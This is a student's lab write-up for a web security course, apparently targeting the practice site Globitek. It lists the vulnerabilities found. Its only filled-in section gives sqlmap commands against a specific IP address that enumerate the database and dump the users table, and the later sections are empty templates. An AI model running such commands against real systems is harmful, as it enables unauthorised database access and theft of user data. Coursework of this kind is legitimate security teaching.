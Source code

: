 # Cybersecurity_week8

Six possible vulnerabilities:
[x] Username Enumeration
[x] Insecure Direct Object Reference
[x] SQL Injection
[x] Cross-Site Scripting
[ ] Cross-Site Request Forgery
[ ] Session Hijacking/Fixation
Vulnerabilities I found and exploited:
* Username Enumeration
* Insecure Direct Object Reference
* SQL Injection
* Cross-Site Scripting
* Bonus Objective 1:
  * Build on the SQL Injection vulnerbility. Experiment to see what other kinds of information one can get the database to reveal.
  
**Blue** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
**Green** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 
**Vulnerability 2:** SQL Injection
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 
**Red** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 
** Bonus Objective 1: **
  * **Steps:**
    1. 
    2. 
    3. 
  * **GIF walkthrough:**
    * 

